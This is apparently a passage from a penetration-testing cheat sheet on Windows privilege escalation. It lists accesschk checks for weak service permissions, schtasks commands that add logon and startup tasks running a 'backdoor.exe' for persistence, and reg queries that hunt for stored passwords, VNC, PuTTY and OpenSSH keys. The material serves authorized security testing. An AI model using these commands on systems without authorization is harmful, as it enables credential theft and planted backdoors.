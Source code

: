 ### <mark style="color:orange;">check for weak service permissions</mark>

```
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

## <mark style="color:red;">Scheduled Tasks</mark>

### <mark style="color:orange;">list scheduled tasks</mark>

```
schtasks /query /fo LIST /v
schtasks
```

### <mark style="color:orange;">add startup scheduled tasks</mark>&#x20;

#### (useful for persistence)

```
schtasks /create /tn "MyCustomTask" /sc onlogon /tr "C:\users\Administrator\Desktop\backdoor.exe"

schtasks /create /tn "MyCustomTask" /sc onstart /tr "C:\users\Administrator\Desktop\backdoor.exe"
```

## <mark style="color:red;">Clear Text Credentials</mark>

### <mark style="color:orange;">search for 'password' keyword in registry hives</mark>

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### <mark style="color:orange;">extract openssh keys from registry</mark>

#### [https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)



### <mark style="color:orange;">find winlogon stored credentials (auto login)</mark>
